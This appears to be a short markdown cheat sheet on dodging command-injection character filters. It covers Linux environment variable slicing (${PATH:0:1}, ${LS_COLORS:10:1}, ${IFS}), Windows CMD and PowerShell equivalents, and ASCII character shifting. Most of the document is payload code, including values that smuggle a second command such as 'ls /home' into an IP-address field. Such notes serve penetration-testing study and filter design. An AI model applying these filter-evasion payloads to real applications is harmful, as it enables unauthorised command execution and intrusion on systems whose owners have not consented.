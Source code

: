 Very common blacklisted character: / or \ (since it specifies directories)

## Linux
Use Linux Environment Variables: ${IFS} from:
```
printenv
```

**Forwardslash (/)
If we do this:
```
echo ${PATH}
```
- This prints out: /usr/local/bin:/usr/bin:/bin:/usr/games

So, if we use the Linux Environment Variable, like this:
```
echo ${PATH:0:1}
```
- It prints out /
- Start at 0th character and take a string length of 1

**Semi-colon (;)
```
${LS_COLORS:10:1}
```

Test payload:
```
127.0.0.1${LS_COLORS:10:1}${IFS}
```
- Success


## Windows CMD
To do the same thing, echo a Windows variable, specify starting position, and negative end position

**Backslash (/)
```
echo %HOMEPATH:~6,-11%
```


## Windows PowerShell
```
Get-ChildItem Env:
```

**Backslash (\)
```
$env:HOMEPATH[0]
```


## Character Shifting

**Backslash (\)
```
man ascii
echo $(tr '!-}' '"-~'<<<[)
```
- [ has ascii #91, so one shift to the right is \


Payload for (; /n ls /home)
```
${LS_COLORS:10:1}%0als${IFS}${PATH:0:1}home
```
